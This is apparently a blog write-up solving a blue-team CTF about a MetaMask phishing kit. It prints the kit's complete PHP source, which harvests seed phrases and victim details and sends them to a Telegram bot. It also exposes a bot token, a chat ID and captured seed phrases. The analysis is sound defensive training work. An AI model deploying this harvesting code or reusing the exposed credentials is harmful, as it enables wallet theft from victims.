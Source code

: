 # Solution

Hi,

recently I have finished challenge [grabthephisher](https://cyberdefenders.org/blueteam-ctf-challenges/95) on cyber defenders.org. Let's check how to solve those puzzles.

### 1 Which wallet is used for asking the seed phrase?

WWW display 3 wallets:

[![image-1658854441638.png](/images/2022-07-27-CTF-GrabTheOhisher-cyberdefenders.org/image-1658854441638.png)](/images/2022-07-27-CTF-GrabTheOhisher-cyberdefenders.org/image-1658854441638.png)

I checked structure of web site directory. Only one directory contained suspicious PHP script:

```PHP
c75-GrabThePhisher\pankewk\metamask\metamask.php
```

### 2 What is the file name that has the code for the phishing kit?

Suspicious file contains script written in PHP to gather intelligence and data from user.

### 3 In which language was the kit written?

Script is written in PHP language.

### 4 <span class="fw-bold">What service does the kit use to retrieve the victim's machine information?</span>

<span class="fw-bold">Code of the script:</span>

```PHP
<?php

$request = file_get_contents("http://api.sypexgeo.net/json/".$_SERVER['REMOTE_ADDR']); 
$array = json_decode($request);
$geo = $array->country->name_en;
$city = $array->city->name_en;
$date = date("m.d.Y"); //aaja


/*
 With love and respect to all the hustler out there,
 This is a small gift to my brothers,
 All the best with your luck,
 
 Regards, 
 j1j1b1s@m3r0
  
  */


    $message = "<b>Welcome 2 The Jungle </b> 
    
<b>Wallet:</b> Metamask
<b>Phrase:</b> " . $_POST["data"] . "
<b>IP:</b> " .$_SERVER['REMOTE_ADDR'] . " | " .$geo. " | " .$city. "
<b>User:</b> " . $_SERVER['HTTP_USER_AGENT'] . "";


sendTel($message);  
	
    function sendTel($message){
		$id = "5442785564"; 
        $token = "5457463144:AAG8t4k7e2ew3tTi0IBShcWbSia0Irvxm10"; 
		$filename = "https://api.telegram.org/bot".$token."/sendMessage?chat_id=".$id."&text=".urlencode($message)."&parse_mode=html";
		file_get_contents($filename);
        $_POST["import-account__secret-phrase"]. $text = $_POST['data']."\n";;
        @file_put_contents($_SERVER['DOCUMENT_ROOT'].'/log/'.'log.txt', $text, FILE_APPEND);	

    }
    
    
    ?>
    
```

Line 3 shows the phisher is using Sypex Geo service to gather intelligence

```PHP
$request = file_get_contents("http://api.sypexgeo.net/json/".$_SERVER['REMOTE_ADDR']); 
```

### 5 How many seed phrases were already collected?

Line 36 shows that all gathered data are stored in root directory of web page in log directory in log.txt file.

```PHP
        @file_put_contents($_SERVER['DOCUMENT_ROOT'].'/log/'.'log.txt', $text, FILE_APPEND);	
```

File log.txt contains 3 entries:

```PHP
number edge rebuild stomach review course sphere absurd memory among drastic total
bomb stairs satisfy host barrel absorb dentist prison capital faint hedgehog worth
father also recycle embody balance concert mechanic believe owner pair muffin hockey
```

### 6 <span class="fw-bold">Write down the seed phrase of the most recent phishing incident?</span>

<span class="fw-bold">Line 36 shows that script is appending data in log file - FILE\_APPEND. It means that, the last written value will be in last position.</span>

### <span class="fw-bold">7 Which medium had been used for credential dumping?</span>

<span class="fw-bold">Line 34 shows that script is using telegram bot api.</span>

```PHP
		$filename = "https://api.telegram.org/bot".$token."/sendMessage?chat_id=".$id."&text=".urlencode($message)."&parse_mode=html";
```

### 8 <span class="fw-bold">What is the token for the channel?</span>  


<span class="fw-bold">Line 33 contains variable named $token with value:</span>

```PHP
        $token = "5457463144:AAG8t4k7e2ew3tTi0IBShcWbSia0Irvxm10"; 
```

### 9 What is the chat ID of the phisher's channel?

Line 32 contains variable named $id with value:

```PHP
		$id = "5442785564"; 
```

### 10 <span class="fw-bold">What are the allies of the phish kit developer?</span>

<span class="fw-bold">Author of phishing script left comment in phishing kit file. Lines 10-18 contains this message. At the end of it author signed message:</span>

```PHP
/*
 With love and respect to all the hustler out there,
 This is a small gift to my brothers,
 All the best with your luck,
 
 Regards, 
 j1j1b1s@m3r0
  
  */
```

### 11 What is the full name of the Phish Actor?

To answer this I had to get familiar with the telegram bot API. Full description of API is here: [https://core.telegram.org/bots/api#available-methods](https://core.telegram.org/bots/api#available-methods)

I used API method getChat.

All queries to the Telegram Bot API must be served over HTTPS and need to be presented in this form: `https://api.telegram.org/bot<token>/METHOD_NAME`. Like this for example:

```HTML
https://api.telegram.org/bot5457463144:AAG8t4k7e2ew3tTi0IBShcWbSia0Irvxm10/getChat?chat_id=5442785564
```

Response from Telegram API:

```JSON
{
	"ok": true,
	"result": {
		"id": 5442785564,
		"first_name": "Marcus",
		"last_name": "Aurelius",
		"username": "pumpkinboii",
		"type": "private",
		"photo": {
			"small_file_id": "AQADBQADCbQxG1rVIVYACAIAAxxRakQBAAM7fQl4M-jTyikE",
			"small_file_unique_id": "AQADCbQxG1rVIVYAAQ",
			"big_file_id": "AQADBQADCbQxG1rVIVYACAMAAxxRakQBAAM7fQl4M-jTyikE",
			"big_file_unique_id": "AQADCbQxG1rVIVYB"
		}
	}
}
```

Answer is concatenation of first\_name and last\_name from lines 5 and 6 in the response.

### 12 <span class="fw-bold">What is the username of the Phish Actor?</span>

<span class="fw-bold">Username is present in line 7 of request response.</span>

### END

It was very fun challenge, if you like my solutions read other posts on the blog.

Thank you for reading, have a nice day !
